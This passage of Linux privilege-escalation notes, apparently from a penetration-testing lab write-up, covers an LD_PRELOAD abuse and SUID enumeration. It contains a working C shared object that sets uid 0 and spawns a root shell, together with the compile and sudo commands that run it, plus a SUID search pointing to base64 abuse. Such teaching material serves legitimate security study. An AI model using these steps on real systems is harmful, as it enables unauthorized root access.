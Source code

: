 we can leverage that function:

The steps of this privilege escalation vector can be summarized as follows;

1. Check for LD_PRELOAD (with the env_keep option)
2. Write a simple C code compiled as a share object (.so extension) file
3. Run the program with sudo rights and the LD_PRELOAD option pointing to our .so file

```c
#include <stdio.h>  
#include <sys/types.h>  
#include <stdlib.h>  
  
void _init() {  
unsetenv("LD_PRELOAD");  
setgid(0);  
setuid(0);  
system("/bin/bash");  
}
```

```bash
gcc -fPIC -shared -o shell.so shell.c -nostartfiles
```

```bash
sudo LD_PRELOAD=/home/user/ldpreload/shell.so find
```


## SUID

```bash
$ find / -type f -perm -04000 -ls 2>/dev/null
       66     40 -rwsr-xr-x   1 root     root        40152 Jan 27  2020 /snap/core/10185/bin/mount
       80     44 -rwsr-xr-x   1 root     root        44168 May  7  2014 /snap/core/10185/bin/ping
       81     44 -rwsr-xr-x   1 root     root        44680 May  7  2014 /snap/core/10185/bin/ping6
       98     40 -rwsr-xr-x   1 root     root        40128 Mar 25  2019 /snap/core/10185/bin/su
      116     27 -rwsr-xr-x   1 root     root        27608 Jan 27  2020 /snap/core/10185/bin/umount
     2610     71 -rwsr-xr-x   1 root     root        71824 Mar 25  2019 /snap/core/10185/usr/bin/chfn
     2612     40 -rwsr-xr-x   1 root     root        40432 Mar 25  2019 /snap/core/10185/usr/bin/chsh
     2689     74 -rwsr-xr-x   1 root     root        75304 Mar 25  2019 /snap/core/10185/usr/bin/gpasswd
..
..
..
     1722     44 -rwsr-xr-x   1 root     root               43352 Sep  5  2019 /usr/bin/base64
..
..
```

Let's focus on `base64`:

https://gtfobins.github.io/gtfobins/base64/#suid
